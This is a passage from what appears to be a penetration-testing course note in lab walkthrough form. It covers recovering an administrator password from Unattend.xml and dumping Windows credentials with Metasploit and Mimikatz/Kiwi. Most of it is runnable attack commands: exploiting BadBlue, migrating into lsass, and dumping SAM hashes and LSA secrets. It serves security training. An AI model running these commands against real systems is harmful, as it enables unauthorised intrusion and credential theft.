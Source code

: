 Execute the `payload.exe` on the target and gain meterpreter on the attacker.

```bash
meterpreter> sysinfo
```

<figure><img src="../../.gitbook/assets/58.png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter> getuid  # PRIV-ESC\student
meterpreter> search -f Unattend.xml
meterpreter> cd c:\\windows\panther
meterpreter> download unattend.xml
meterpreter> exit

john@attack> cat unattend.xml  # administrator:QWRtaW5AMTIz
```

The password is base64 encoded.

```bash
john@attack> echo 'QWRtaW5AMTIz' > password
john@attack> base64 -d password  # Admin@123
john@attack> psexec.py administrator@10.3.31.19

C:\Windows\system32> whoami
C:\Windows\system32> more c:\users\administrator\desktop\flag.txt
```

### Mimikatz

#### Description

* Mimikatz is a Windows post-exploitation tool written by Benjamin Deply (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
* The SAM (Security Account Manager) databse, is a database file on Windows systems that stores hashed user passwords.
* Mimikatz can be used to extract hashes from the `lsass.exe` process memory where hashes are cached.
* We can utilize the pre-compiled `mimikatz` executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.

_Note : Mimikatz will require elevated privileges in order to run correctly._

#### Lab

```bash
john@attack> nmap 10.3.30.187 -sV

msf6> search badblue
msf6> use 1
msf6> set rhosts 10.3.30.187
msf6> run

meterpreter> sysinfo
meterpreter> getuid  # Administrator
meterpreter> pgrep lsass
meterpreter> migrate 768
meterpreter> getuid  # NT Authority/system

meterpreter> load kiwi
meterpreter> ?
meterpreter> creds_all
meterpreter> lsa_dump_sam
meterpreter> lsa_dump_secrets

meterpreter> cd c:\\
meterpreter> mkdir Temp
```